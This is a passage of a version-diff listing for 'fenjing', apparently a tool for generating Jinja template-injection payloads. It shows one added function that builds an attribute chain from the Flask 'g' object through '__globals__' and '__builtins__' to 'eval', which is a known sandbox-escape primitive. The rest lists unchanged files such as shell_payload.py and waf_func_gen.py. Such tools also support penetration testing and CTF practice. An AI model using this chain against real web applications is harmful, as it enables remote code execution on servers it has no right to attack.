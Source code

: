 ```diff
         (ITEM, "__builtins__"),
         (ITEM, "eval")
     )]
 
+@req_gen
+def gen_eval_func_g(context):
+    return [(
+        CHAINED_ATTRIBUTE_ITEM,
+        (LITERAL, "g"),
+        (ATTRIBUTE, "pop"),
+        (ATTRIBUTE, "__globals__"),
+        (ITEM, "__builtins__"),
+        (ITEM, "eval")
+    )]
+
 # ---
 
 
 @req_gen
 def gen_eval_normal(context, code):
     return [
         (LITERAL, "("),
```

### Comparing `fenjing-0.4.9/fenjing/requester.py` & `fenjing-0.4.9.1/fenjing/requester.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.9/fenjing/scan_url.py` & `fenjing-0.4.9.1/fenjing/scan_url.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.9/fenjing/shell_payload.py` & `fenjing-0.4.9.1/fenjing/shell_payload.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.9/fenjing/submitter.py` & `fenjing-0.4.9.1/fenjing/submitter.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.9/fenjing/templates/index.html` & `fenjing-0.4.9.1/fenjing/templates/index.html`

 * *Files identical despite different names*

### Comparing `fenjing-0.4.9/fenjing/waf_func_gen.py` & `fenjing-0.4.9.1/fenjing/waf_func_gen.py`
